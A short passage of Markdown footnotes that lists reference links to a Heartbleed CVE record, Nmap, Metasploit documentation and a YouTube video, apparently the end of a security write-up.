[^8]: https://www.cvedetails.com/cve/CVE-2014-0160/ 
[^9]: https://nmap.org/  
[^10]: https://docs.rapid7.com/metasploit/msf-overview/ 
[^11]: https://www.offensive-security.com/metasploit-unleashed/msfconsole/ 
[^12]: https://www.youtube.com/watch?v=-qzZIHJ0HLU 

